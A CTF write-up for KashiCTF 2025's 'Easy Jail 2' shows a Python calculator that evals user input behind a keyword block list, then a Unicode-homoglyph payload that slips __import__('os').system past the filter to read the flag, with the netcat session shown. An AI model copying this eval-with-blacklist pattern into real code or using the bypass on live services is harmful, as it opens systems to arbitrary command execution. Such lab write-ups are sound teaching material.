 ```yaml
---
title: "Easy Jail 2"
description: "I made a completely secure calculator this time."
pubDate: 2025-02-27
ctf: "KashiCTF 2025"
category: "misc"
author: "sealldev"
section: "CTFs"
---
```


> Original Writeup on [seall.dev](https://seall.dev/posts/kashictf2025#easy-jail-2)

```python
#!/usr/bin/env python3

print("           _            _       _             ")
print("          | |          | |     | |            ")
print("  ___ __ _| | ___ _   _| | __ _| |_ ___  _ __ ")
print(" / __/ _` | |/ __| | | | |/ _` | __/ _ \| '__|")
print("| (_| (_| | | (__| |_| | | (_| | || (_) | |   ")
print(" \___\__,_|_|\___|\__,_|_|\__,_|\__\___/|_|   ")

BLACKLIST = ["open", "input", "eval", "exec", "import", "getattr", "sh", "builtins", "global"]
def calc(op):
	try :
		res = eval(op)
	except Exception as e:
		print(e)
		return print("Wrong operation")
	return print(f"{op} --> {res}")

def main():
	while True :
		inp = input(">> ")
		if any(bad in inp for bad in BLACKLIST) :
			print("Are you tying to hack me !!!!!")
		else :
			calc(inp)

if __name__ == '__main__':
	main()
```

Looking at the jail (compared to the previous) restricts words (such as import), our previous solution (`__import__('os').system('cat ../flag.txt')`) no longer worked due to `import` being a blocked word.

Looking at the [PyJail material online](https://shirajuki.js.org/blog/pyjail-cheatsheet#unicode-bypass) we can use a unicode bypass.

I make the following payload: `__𝘪𝘮𝘱𝘰𝘳t__('os').system('cat ../flag.txt')`

Which then returns the flag from the remote:

```
$ nc kashictf.iitbhucybersec.in 56261
           _            _       _
          | |          | |     | |
  ___ __ _| | ___ _   _| | __ _| |_ ___  _ __
 / __/ _` | |/ __| | | | |/ _` | __/ _ \| '__|
| (_| (_| | | (__| |_| | | (_| | || (_) | |
 \___\__,_|_|\___|\__,_|_|\__,_|\__\___/|_|
>> __𝘪𝘮𝘱𝘰𝘳t__('os').system('cat ../flag.txt')
KashiCTF{C4N_S71LL_CL3AR_8L4CKL15T_ewBkDkyO}
```

Flag: `KashiCTF{C4N_S71LL_CL3AR_8L4CKL15T_ewBkDkyO}`
